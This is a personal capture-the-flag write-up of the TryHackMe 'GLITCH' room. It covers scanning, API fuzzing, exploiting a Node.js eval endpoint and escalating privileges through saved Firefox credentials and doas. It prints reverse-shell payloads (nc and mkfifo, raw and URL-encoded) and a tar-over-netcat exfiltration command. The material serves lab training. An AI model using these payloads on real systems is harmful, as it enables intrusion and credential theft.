




Name: GLITCH
Date: 01/05/2022
Difficulty: Easy
Description: Challenge showcasing a web app and simple privilege escalation. Can you find the glitch?
Better Description: Ever heard of Doas?
Goals:  I am still a Javascript, Node.js, API hacking absolute noob: read and learn
Learnt: Actually using Postman, Node.js vuln function eval, Node.js process management, API fuzzing, What doas 


```bash
root@ip-10-10-105-166:~# ping -c 3 10.10.206.223
PING 10.10.206.223 (10.10.206.223) 56(84) bytes of data.
64 bytes from 10.10.206.223: icmp_seq=1 ttl=64 time=0.720 ms
64 bytes from 10.10.206.223: icmp_seq=2 ttl=64 time=0.491 ms
64 bytes from 10.10.206.223: icmp_seq=3 ttl=64 time=0.565 ms

--- 10.10.206.223 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2048ms
rtt min/avg/max/mdev = 0.491/0.592/0.720/0.095 ms


root@ip-10-10-105-166:~# nmap -F 10.10.206.223

Starting Nmap 7.60 ( https://nmap.org ) at 2022-04-30 19:52 BST
Nmap scan report for ip-10-10-206-223.eu-west-1.compute.internal (10.10.206.223)
Host is up (0.00015s latency).
Not shown: 99 filtered ports
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:BA:85:3E:6C:F5 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 2.22 seconds
root@ip-10-10-105-166:~# nikto -h 10.10.206.223
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.10.206.223
+ Target Hostname:    ip-10-10-206-223.eu-west-1.compute.internal
+ Target Port:        80
+ Start Time:         2022-04-30 19:52:45 (GMT1)
---------------------------------------------------------------------------
+ Server: nginx/1.14.0 (Ubuntu)
+ Cookie token created without the httponly flag
+ Retrieved x-powered-by header: Express
+ Server leaks inodes via ETags, header found with file /, fields: 0xW/2d4 0x9vv1ycPBiNQXrvbVqqN9dD9MWUM 
+ The anti-clickjacking X-Frame-Options header is not present.
+ Uncommon header 'x-content-type-options' found, with contents: nosniff
+ Uncommon header 'content-security-policy' found, with contents: default-src 'none'
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: GET, HEAD 
+ OSVDB-3092: /secret/: This might be interesting...
+ 6544 items checked: 0 error(s) and 8 item(s) reported on remote host
+ End Time:           2022-04-30 19:53:40 (GMT1) (55 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested


root@ip-10-10-105-166:~# nmap -sC -sV -T 4 -p- 10.10.206.223

Starting Nmap 7.60 ( https://nmap.org ) at 2022-04-30 19:52 BST
Nmap scan report for ip-10-10-206-223.eu-west-1.compute.internal (10.10.206.223)
Host is up (0.00049s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: not allowed
MAC Address: 02:BA:85:3E:6C:F5 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 432.21 seconds

root@ip-10-10-105-166:~# nmap --script discovery -p 80 10.10.206.223

Starting Nmap 7.60 ( https://nmap.org ) at 2022-04-30 20:03 BST
Pre-scan script results:
| targets-asn: 
|_  targets-asn.asn is a mandatory parameter
Nmap scan report for ip-10-10-206-223.eu-west-1.compute.internal (10.10.206.223)
Host is up (0.00024s latency).

PORT   STATE SERVICE
80/tcp open  http
|_http-chrono: Request times for /; avg: 163.32ms; min: 158.14ms; max: 167.80ms
|_http-comments-displayer: Couldn't find any comments.
|_http-date: Sat, 30 Apr 2022 19:03:59 GMT; 0s from local time.
|_http-devframework: Express detected. Found Express in X-Powered-By Header
| http-enum: 
|_  /secret/: Potentially interesting folder
|_http-errors: Couldn't find any error pages.
|_http-feed: Couldn't find any feeds.
| http-headers: 
|   Server: nginx/1.14.0 (Ubuntu)
|   Date: Sat, 30 Apr 2022 19:03:59 GMT
|   Content-Type: text/html; charset=utf-8
|   Content-Length: 724
|   Connection: close
|   X-Powered-By: Express
|   Set-Cookie: token=value; Path=/
|   ETag: W/"2d4-9vv1ycPBiNQXrvbVqqN9dD9MWUM"
|   
|_  (Request type: HEAD)
|_http-mobileversion-checker: No mobile version detected.
|_http-referer-checker: Couldn't find any cross-domain scripts.
|_http-security-headers: 
| http-sitemap-generator: 
|   Directory structure:
|     /
|       Other: 1
|   Longest directory structure:
|     Depth: 0
|     Dir: /
|   Total files found (by extension):
|_    Other: 1
|_http-title: not allowed
| http-useragent-tester: 
|   Status for browser useragent: 200
|   Allowed User Agents: 
|     Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)
|     libwww
|     lwp-trivial
|     libcurl-agent/1.0
|     PHP/
|     Python-urllib/2.5
|     GT::WWW
|     Snoopy
|     MFC_Tear_Sample
|     HTTP::Lite
|     PHPCrawl
|     URI::Fetch
|     Zend_Http_Client
|     http client
|     PECL::HTTP
|     Wget/1.13.4 (linux-gnu)
|_    WWW-Mechanize/1.34
| http-vhosts: 
|_127 names had status 200
|_http-xssed: No previously reported XSS vuln.
MAC Address: 02:BA:85:3E:6C:F5 (Unknown)

Host script results:
| dns-brute: 
|   DNS Brute-force hostnames: 
|_    ns0.eu-west-1.compute.internal - 172.16.0.23
|_fcrdns: PASS (ip-10-10-206-223.eu-west-1.compute.internal)
|_ipidseq: All zeros
|_path-mtu: PMTU == 9001

Nmap done: 1 IP address (1 host up) scanned in 29.38 seconds


root@ip-10-10-105-166:~# dirb http://10.10.206.223

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sat Apr 30 20:15:06 2022
URL_BASE: http://10.10.206.223/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.206.223/ ----
+ http://10.10.206.223/img (CODE:301|SIZE:173)                                 
+ http://10.10.206.223/js (CODE:301|SIZE:171)                                  
+ http://10.10.206.223/secret (CODE:200|SIZE:724)                              
                                                                               
-----------------
END_TIME: Sat Apr 30 20:15:11 2022
DOWNLOADED: 4612 - FOUND: 3
```

View source and go to the /api/access, decode the api key
 {
  const container = document.getElementById('items');
  await fetch('/api/items')
    .then((response) => response.json())
    .then((response) => {
      response.sins.forEach((element) => {
        let el = `<div class="item sins"><div class="img-wrapper"></div><h3>${element}</h3></div>`;
        container.insertAdjacentHTML('beforeend', el);
      });
      response.errors.forEach((element) => {
        let el = `<div class="item errors"><div class="img-wrapper"></div><h3>${element}</h3></div>`;
        container.insertAdjacentHTML('beforeend', el);
      });
      response.deaths.forEach((element) => {
        let el = `<div class="item deaths"><div class="img-wrapper"></div><h3>${element}</h3></div>`;
        container.insertAdjacentHTML('beforeend', el);
      });
    });

  const buttons = document.querySelectorAll('.btn');
  const items = document.querySelectorAll('.item');
  buttons.forEach((button) => {
    button.addEventListener('click', (event) => {
      event.preventDefault();
      const filter = event.target.innerText;
      items.forEach((item) => {
        if (filter === 'all') {
          item.style.display = 'flex';
        } else {
          if (item.classList.contains(filter)) {
            item.style.display = 'flex';
          } else {
            item.style.display = 'none';
          }
        }
      });
    });
  });
})();
```

Once again in the function is directory /api/items this displays some json:
`{"sins":["lust","gluttony","greed","sloth","wrath","envy","pride"],"errors":["error","error","error","error","error","error","error","error","error"],"deaths":["death"]}`

Having never done any API hacking of any kind I was assumed I need to use either wfuzz or fuff. I read [alirezac0](https://github.com/alirezac0/TryHackMe-Writeups/tree/master/GLITCH) for guidance.

```bash
wfuzz -c -z file,/usr/share/wordlists/SecLists/Discovery/Web-Content/api/objects.txt -X POST --hc 404,400 10.10.206.223/api/items\?FUZZ\=test
```
As this is walkthrough I will explain this command. We are wfuzzing an end point in api `\?` is the parametre that will be fuzzed with argument of test to test for a legitimate responses.
The flag -z specifies a playload that will just be the wordlist to fuzz the location FUZZ, -X POST specifies to use the POST method, -hc hides responses that result in error codes.



Then we can try more appropriate specific keywords to  pass to the "cmd" endpoint:

```bash
root@ip-10-10-105-166:~# curl -X POST http://10.10.206.223/api/items/?cmd\=id
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>ReferenceError: id is not defined<br> &nbsp; &nbsp;at eval (eval at router.post (/var/web/routes/api.js:25:60), &lt;anonymous&gt;:1:1)<br> &nbsp; &nbsp;at router.post (/var/web/routes/api.js:25:60)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/var/web/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /var/web/node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at Function.process_params (/var/web/node_modules/express/lib/router/index.js:335:12)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/index.js:275:10)<br> &nbsp; &nbsp;at Function.handle (/var/web/node_modules/express/lib/router/index.js:174:3)</pre>
</body>
</html>
```
[read](https://medium.com/r3d-buck3t/eval-console-log-rce-warning-be68e92c3090)

Url encoded in Burp decoder
```
%72%65%71%75%69%72%65%28%22%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%22%29%2e%65%78%65%63%28%27%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%2f%62%69%6e%2f%73%68%20%2d%69%20%0a%32%3e%26%31%7c%6e%63%20%31%30%2e%31%30%2e%31%39%35%2e%35%30%20%34%34%34%34%20%3e%2f%74%6d%70%2f%66%20%27%29
```

Given that I then got errors I headed over to read [infamous55's writeup](https://infamous55.medium.com/tryhackme-glitch-official-writeup-c86e985c7e4). 
I saw one screenshot and remembered postman actually exists.


Infamous references [CurlS](https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44). 

When to PayloadAllTheThings for
```javascript
require('child_process').exec('nc -e /bin/sh 10.0.0.1 4242')
// changed to avoid the -e probably unsupported, like in the writeups
require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.195.50 4444 >/tmp/f')
```
Url encoded that with cyberchef this time.

```javascript
require%28%27child%5Fprocess%27%29%2Eexec%28%27rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20%2Di%202%3E%261%7Cnc%2010%2E10%2E195%2E50%204444%20%3E%2Ftmp%2Ff%27%29

```



AND



user.txt is here:
```bash
user@ubuntu:/var/web$ find / -type f -name user.txt 2>/dev/null
/home/user/user.txt
```
PrivEsc
```bash
user@ubuntu:/home/v0id$ sudo -V
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2

# AttackBox
Searchsploit sudo 1.8
Read a couple tried a couple, unsuccessful
```

Uploaded LinEnum. It did not find anything. Given my scheduling and objectives for this Room I had fifteen minutes left I went back to the wirte up.
Infamous used LinPEAS, which I refrain from using to remain with OSCP exam guidelines, to find a .firefox in /home/user/. In directory I `grep -r -e "password"` and saw it fly by the output.
Seeing the word Encrypted I:
```bash
user@ubuntu:~/.firefox$ grep -r -e  "encrypted"
b5w4643p.default-release/logins.json:{"nextId":2,"logins":[{"id":1,"hostname":"https://glitch.thm","httpRealm":null,"formSubmitURL":"","usernameField":"","passwordField":"","encryptedUsername":"MDIEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECCP5HBZJq0+DBAjWdWrk7qo4eA==","encryptedPassword":"MDoEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECPfxo08d5UxEBBB9aJ+chJC2pDccxKhqs1UH","guid":"{9c80e9f2-0377-496e-9404-4411eb94783b}","encType":1,"timeCreated":1610645982812,"timeLastUsed":1610645982812,"timePasswordChanged":1610645982812,"timesUsed":1}],"potentiallyVulnerablePasswords":[],"dismissedBreachAlertsByLoginGUID":{},"version":3}
Binary file b5w4643p.default-release/storage/permanent/chrome/idb/3870112724rsegmnoittet-es.sqlite matches
```
You could also use [firefox_decryptor](https://github.com/unode/firefox_decrypt) on Infamous's writeup. Learnt about firefox encryption from [stackoverflow](https://security.stackexchange.com/questions/215881/how-are-mozilla-firefox-passwords-encrypted#227735)
, is as described by probably one of the best websites on the entire internet [similar to sudo](https://wiki.archlinux.org/title/Doas).
Reinventing a similarish wheel to PrivEsc. This blog alos contains some really awesome instructions for large directory transfer that made it's way into my [Archive](Network/shell.md)

Target machine
```bash
tar cf - . | nc $IP $PORT
```
Attack machine
```bash
ncat -nlvp $PORT | tar xf -
```
Decrypt for v0id credentials. `su v0id` and then `doas -u root /bin/bash` and then  `cat /root/root.txt`
